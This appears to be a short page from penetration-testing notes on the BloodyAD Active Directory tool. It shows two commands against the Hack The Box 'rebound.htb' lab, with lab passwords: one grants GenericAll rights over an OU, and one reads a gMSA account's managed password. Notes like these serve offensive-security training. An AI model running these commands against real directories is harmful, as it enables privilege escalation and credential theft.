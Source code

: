 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# BloodyAD

## Usage

### Rights Assignment

Give a user the specified rights over an object.

{% code overflow="wrap" %}
```bash
# give oorend user GenericAll rights over the Service Users OU
bloodyAD -d rebound.htb -u oorend -p '1GR8t@$$4u' --host dc01.rebound.htb add genericAll 'OU=SERVICE USERS,DC=REBOUND,DC=HTB' oorend
```
{% endcode %}

### GMSA password

{% code overflow="wrap" %}
```bash
bloodyAD -d rebound.htb -u tbrady -p 543BOMBOMBUNmanda --host dc01.rebound.htb get object 'delegator$' --attr msDS-ManagedPassword
```
{% endcode %}

## Resources

{% tabs %}
{% tab title="GitHub" %}
{% embed url="https://github.com/CravateRouge/bloodyAD" %}
{% endtab %}

{% tab title="Wiki" %}
{% embed url="https://github.com/CravateRouge/bloodyAD/wiki" %}
{% endtab %}
{% endtabs %}
